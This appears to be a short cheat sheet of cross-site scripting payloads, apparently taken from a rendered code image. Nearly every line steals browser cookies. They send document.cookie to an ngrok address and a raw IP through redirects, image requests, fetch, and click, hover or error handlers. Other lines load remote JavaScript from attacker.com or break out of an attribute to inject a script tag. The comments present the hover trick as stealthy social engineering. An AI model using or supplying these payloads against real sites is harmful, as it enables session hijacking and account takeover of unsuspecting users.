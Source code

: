 
document.location = 'http://4.tcp.ngrok.io:10402/steal?cookie=' + encodeURIComponent(document.cookie);

new Image().src = 'http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie);

fetch('http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie));

<a href="#" onclick="new Image().src='http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie)">Click me</a>
#When the user clicks the link, it silently sends the cookie to your server using an 
#image request.

<a href="#" onmouseover="new Image().src='http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie)">Hover here</a>
#Sends the cookie just by hovering — useful for stealthy social engineering.

<img src=0 onerror="alert('XSS')">

<img src=1 onerror=fetch('http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie));

<img src=1 onerror="import('//attacker.com/x.js')"> # Loads javascript from a remote server

"/><script>import('//localserver/xss.js')</script>

